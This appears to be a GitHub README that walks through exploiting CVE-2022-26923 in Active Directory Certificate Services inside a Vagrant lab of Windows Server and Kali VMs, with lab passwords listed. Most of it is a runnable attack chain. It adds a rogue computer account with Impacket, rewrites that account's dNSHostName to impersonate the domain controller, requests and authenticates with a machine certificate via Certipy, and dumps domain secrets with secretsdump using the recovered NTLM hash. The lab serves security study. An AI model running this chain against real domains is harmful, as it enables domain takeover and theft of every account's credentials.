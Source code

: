 # Exploiting CVE-2022-26923: Certificate Authority Privilege Escalation

## Overview

CVE-2022-26923 is a vulnerability in Active Directory Certificate Services (AD CS) that allows an attacker to escalate privileges by misusing certificate-based authentication. This guide outlines the steps to exploit this vulnerability using Impacket and Certipy.

---

## Credentials Table

| Virtual Machine    | Username     | Password            |
|--------------------|-------------|----------------------|
| Windows Server    | Administrator | !@windowsadmintest101 |
| Windows Server    | testuser      | $Vulnerable139       |
| Kali-Linux VM     | vagrant       | vagrant              |

---

## Step 1: Clone the Repository and Set Up Virtual Machines

First, clone the repository containing the necessary files:

```bash
git clone https://github.com/rayngnpc/CVE-2022-26923-rayng.git
cd CVE-2022-26923-rayng
```

### Set Up Virtual Machines

The repository contains two folders, each with a `Vagrantfile` for provisioning virtual machines. You must install **Vagrant** on your host machine before proceeding.

#### **Windows Server 2022 VM**

Navigate to the `WindowsServer2022` directory:

```bash
cd WindowsServer2022
vagrant up
```

This will download and set up the Windows Server 2022 VM in VirtualBox.

#### **Kali Linux VM**

Navigate to the `Kali-LinuxVM` directory:

```bash
cd Kali-LinuxVM
vagrant up
```

---

## Step 2: Configure the Virtual Network

Since the exploit requires a NAT network, configure VirtualBox as follows:

### **On Windows**

Before running the command below, ensure `VBoxManage` is added to your environment variables. If not, execute the command using its full path:

#### **Adding NAT Network**

```bash
VBoxManage natnetwork add --netname NatNet1 --network "10.0.2.0/24" --enable
```

If `VBoxManage` is not recognized, use:

```bash
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" natnetwork add --netname NatNet1 --network "10.0.2.0/24" --enable
```

### **On Linux**

```bash
VBoxManage natnetwork add --netname NatNet1 --network "10.0.2.0/24" --enable
```

---

## Step 3: Modify Hosts File

Before proceeding, ensure both the **Windows Server 2022** and **Kali Linux VM** are turned on.

Access the Kali Linux VM to start the attack.

Update your `/etc/hosts` file to map the domain controller's IP:

```bash
sudo nano /etc/hosts
```

Add the following entry:

```
10.0.2.121 SERVER2022.pchau.domain.local SERVER2022 pchau-SERVER2022-CA pchau.domain.local
```

Save and exit.

---

## Step 4: Set Up the Environment

Navigate to the `CVE-26923` directory and activate the Python virtual environment:

```bash
cd ~/CVE-26923
source ~/CVE-26923/rayng/bin/activate
```

---

## Step 5: Add a Computer to the Domain

Using Impacket's `addcomputer` utility:

```bash
impacket-addcomputer -computer-name 'PCTEST1' -computer-pass 'testuser' -dc-host 10.0.2.121 -domain-netbios pchau.domain.local pchau.domain.local/testuser:'$Vulnerable139'
```

---

## Step 6: Assign PCTEST1 to the Domain Controller

### **Method 1: Using SSH** (if OpenSSH is installed on the target server)

```bash
ssh testuser@10.0.2.121
Get-ADComputer PCTEST1 -properties dnshostname,serviceprincipalname
Set-ADComputer PCTEST1 -DnsHostName SERVER2022.pchau.domain.local
Get-ADComputer PCTEST1 -properties dnshostname,serviceprincipalname
```

### **Method 2: Without SSH** (using Impacket & BloodyAD)

Check domain computers:

```bash
impacket-GetADComputers pchau.domain.local/testuser:'$Vulnerable139' -dc-ip 10.0.2.121
```

Navigate to the `bloodyAD` directory and use `bloodyAD.py` to add `PCTEST1` to the domain:

```bash
cd ~/CVE-26923/bloodyAD/
python3 bloodyAD.py -d pchau.domain.local -u testuser -p '$Vulnerable139' --host 10.0.2.121 set object PCTEST1$ dNSHostName -v 'SERVER2022.pchau.domain.local'
```

Verify that `PCTEST1` has been assigned to the domain:

```bash
impacket-GetADComputers pchau.domain.local/testuser:'$Vulnerable139' -dc-ip 10.0.2.121
```

---

## Step 7: Exploitation Process

### **Finding Vulnerable Certificates**
Use Certipy to find vulnerable certificates:

```bash
certipy find -dc-ip 10.0.2.121 -username 'PCTEST1$' -password 'testuser'
```

### **Requesting a Certificate**
Request a machine certificate using Certipy:

```bash
certipy req -dc-ip 10.0.2.121 -username 'PCTEST1$' -password 'testuser' -template Machine -ca pchau-SERVER2022-CA
```

### **Authenticating with the Certificate**
Authenticate using the obtained certificate:

```bash
certipy auth -pfx server2022.pfx
```

---

## Step 8: Extracting NTLM Hashes

After running the `certipy auth` command, two hashes will be displayed. The right-side hash will be used for NTLM authentication.

Example hash output:

```
aad3b435b51404eeaad3b435b51404ee:69079fd4946af567d682d61e121f29e7
```

Use the extracted NTLM hash for dumping credentials:

```bash
impacket-secretsdump 'server2022$@pchau.domain.local' -hashes :69079fd4946af567d682d61e121f29e7
```

---

This completes the full attack chain for exploiting CVE-2022-26923.

